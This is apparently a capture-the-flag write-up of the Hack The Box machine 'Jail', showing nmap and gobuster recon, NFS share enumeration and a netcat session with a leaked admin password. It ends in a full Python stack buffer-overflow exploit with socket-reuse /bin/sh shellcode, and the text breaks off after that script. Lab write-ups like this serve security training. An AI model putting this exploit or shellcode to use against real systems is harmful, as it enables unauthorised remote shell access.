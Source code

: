 ```yaml
---
layout: post
title: Jail(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.34

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.34</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-20 22:26 EST
<br>Nmap scan report for 10.10.10.34
<br>Host is up (0.17s latency).
<br>Not shown: 996 filtered ports
<br>PORT     STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>   open  ssh     <font color="53E100">OpenSSH 6.6.1 (protocol 2.0)</font>
<br>| ssh-hostkey: 
<br>|   2048 cd:ec:19:7c:da:dc:16:e2:a3:9d:42:f3:18:4b:e6:4d (RSA)
<br>|   256 af:94:9f:2f:21:d0:e0:1d:ae:8e:7f:1d:7b:d7:42:ef (ECDSA)
<br>|_  256 6b:f8:dc:27:4f:1c:89:67:a4:67:c5:ed:07:53:af:97 (EdDSA)
<br><font color="BB69EC">80/tcp</font>   open  http    <font color="53E100">Apache httpd 2.4.6 ((CentOS))</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: Apache/2.4.6 (CentOS)
<br>|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
<br><font color="BB69EC">111/tcp</font>  open  <font color="53E100">rpcbind 2-4 (RPC #100000)</font>
<br>| rpcinfo: 
<br>|   program version   port/proto  service
<br>|   100000  2,3,4        111/tcp  rpcbind
<br>|   100000  2,3,4        111/udp  rpcbind
<br>|   100003  3,4         2049/tcp  nfs
<br>|   100003  3,4         2049/udp  nfs
<br>|   100005  1,2,3      20048/tcp  mountd
<br>|   100005  1,2,3      20048/udp  mountd
<br>|   100021  1,3,4      42049/tcp  nlockmgr
<br>|   100021  1,3,4      57851/udp  nlockmgr
<br>|   100024  1          50323/udp  status
<br>|   100024  1          57733/tcp  status
<br>|   100227  3           2049/tcp  nfs_acl
<br>|_  100227  3           2049/udp  nfs_acl
<br><font color="BB69EC">2049/tcp</font> open  <font color="53E100">nfs_acl 3 (RPC #100227)</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (91%), Linux 3.18 (91%), Linux 3.2 - 4.8 (91%), Crestron XPanel control system (89%), Linux <br>3.16 (88%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.2 (86%), AXIS 210A or 211 <br>Network Camera (Linux 2.6.17) (86%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops</p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   180.47 ms 10.10.14.1
<br>2   180.52 ms 10.10.10.34</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 43.29 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p> 
</div>
</font>

**Web**:-

![1](https://teckk2.github.io/assets/images/jail/1.png)
<br>Nothing useful lets bruteforce the directories.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.34/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt</p> 

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.34/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 301,302,307,200,204
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.34<font color="53E100">/jailuser (Status: 301)</font>
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>There is another directory named /jailuser let’s open it and check what it has
![2](https://teckk2.github.io/assets/images/jail/2.png)
<br>It has 3 files Open Jail.c and analyzed it,In there I found something interesting. It has admin password in it, which we don’t know where to use.
![3](https://teckk2.github.io/assets/images/jail/3.png)
<br>And in the below lines it’s showing the port 7411
![4](https://teckk2.github.io/assets/images/jail/4.png)
<br>Let’s check and try to connect with it and check what service is running inside it.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -v 10.10.10.34 7411
<br>10.10.10.34: inverse host lookup failed: Unknown host
<br>(UNKNOWN) [10.10.10.34] 7411 (?) open
<br>OK Ready. Send USER command.
<br><font color="53E100">DEBUG ON</font>
<br>OK DEBUG mode on.
<br><font color="53E100">USER admin</font>
<br>OK Send PASS command.
<br><font color="53E100">PASS 1974jialbreak!</font>
<br>Debug: userpass buffer @ <font color="ffff00">0xffffd610</font>
<br>Incorrect username and/or password.
<br>ERR Authentication failed.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>With the admin username and password which we got from the jail.c file it accepted the connection, and it gave us the userpass buffer address, maybe we can use this in future.
<br>After roaming on the port 80 and 7411 for some time I couldn’t find anything further, So let’s jump and focus on the 3rd port which we found in the nmap which is port 111, It has nfs open which stands for Network File share let’s enumerate this maybe we could find something interesting in it.
<br>First we need to install rpcbind nfs tool to be able to mount the folder to our local machine, If you already have this then you can jump to the next step.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># <font color="Black">apt-get install rpcbind nfs-common</font>
<br>Now first do the command showmount with the respective target IP address which will show us the available nfs folders.

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># showmount -e 10.10.10.34
<br>Export list for 10.10.10.34:
<br>/opt          *
<br>/var/nfsshare *
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p> 
</div>
</font>
<br>As you can see the /opt and /var/nfsshare folder are available to mount
<br>Now before we proceed we need to create a user with the uid 1000 in able to read the mounted file, because the shared mount folder is only accessible to the users which has uid 1000
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ id
<br>uid=1000(teck) gid=1000(teck) groups=1000(teck)
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ sudo showmount -e 10.10.10.34
<br>Export list for 10.10.10.34:
<br><font color="ffff00">/opt</font>          *
<br><font color="ffff00">/var/nfsshare</font> *
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ sudo mount -t nfs 10.10.10.34:/var/nfsshare <br>/var/nfsshare/ -o nolock
<br>mount.nfs: mount point /var/nfsshare/ does not exist
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ sudo mkdir /var/nfsshare
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ sudo mount -t nfs 10.10.10.34:/var/nfsshare <br>/var/nfsshare/ -o nolock
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ cd /opt/
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/opt</font>$ ls -l
<br>total 0
<br>drwxr-x--- 2 root root 26 Jun 26  2017 logreader
<br>drwxr-xr-x 2 root root  6 Mar 26  2015 rh
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/opt</font>$ cd logreader/
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/opt/logreader</font>$ ls -la
<br>total 4
<br>drwxr-x--- 2 root root 26 Jun 26  2017 .
<br>drwxr-xr-x 4 root root 33 Jun 25  2017 ..
<br>-rwxr-x--- 1 root root 52 Jun 26  2017 <font color="53E100">logreader.sh</font>
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/opt/logreader</font>$ cat logreader.sh 
<br>#!/bin/bash
<br>/bin/cat /home/frank/logs/checkproc.log
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/opt/logreader</font>$ ./logreader.sh
<br>/bin/cat: /home/frank/logs/checkproc.log: No such file or directory
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/opt/logreader</font>$ </p>
</div>
</font>

<br>And as you can see there is not much information available as the file is just trying to cat the checkproc.log file and nothing else
<br>After trying a lot of stuff, when I tried to connect with port 7411 again and this time when I type OPEN in the end it send me the output OK Jail doors opened, this is weird I really don’t know what this means.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ nc -v 10.10.10.34 7411
<br>10.10.10.34: inverse host lookup failed: Unknown host
<br>(UNKNOWN) [10.10.10.34] 7411 (?) open
<br>OK Ready. Send USER command.
<br>DEBUG ON
<br>OK DEBUG mode on.
<br>USER admin
<br>OK Send PASS command.
<br>PASS 1974jailbreak!
<br>Debug: userpass buffer @ 0xffffd610
<br>OK Authentication success. Send command.
<br><font color="ffff00">OPEN</font>
<br><font color="53E100">OK Jail doors opened.</font><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$</p>
</div>
</font>

<br>After Debugging the C file which we got in the web, I found the offset is 28 and now we need to create payload accordong to perform BOF.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$ cat jail.py 
<br><font color="red"> #!/usr/bin/env python</font></p>

<p>import socket, sys, telnetlib</p>

<p>s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
<br>s.connect((<font color="53E100">'10.10.10.34'</font>, 7411))</p>

<p>print s.recv(1024)
<br>s.send(<font color="53E100">"DEBUG"</font>)
<br>print s.recv(1024)
<br>s.send(<font color="53E100">"USER admin"</font>)
<br>print s.recv(1024)</p>

<p> <font color="red"> # https://www.exploit-db.com/exploits/34060/</font>
<br> <font color="red"> # Linux/x86 - execve(/bin/sh) + Socket Re-Use Shellcode (50 bytes)</font>
<br>payload = <font color="53E100">"A"</font>*28 + <font color="53E100">"\x38\xd6\xff\xff"</font> + <font color="53E100">"\x90"</font>*10 + <font color="53E100">"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"</font>
<br>s.send(<font color="53E100">"PASS "</font> + payload)
<br>print s.recv(1024)


<p>t = telnetlib.Telnet()
<br>t.sock = s
<br>t.interact()</p>

<p>s.close()
<br><font color="red">teck@kali</font>:<font color="RoyalBlue">/root/Desktop</font>$</p>

</div>
</font>

<br>check


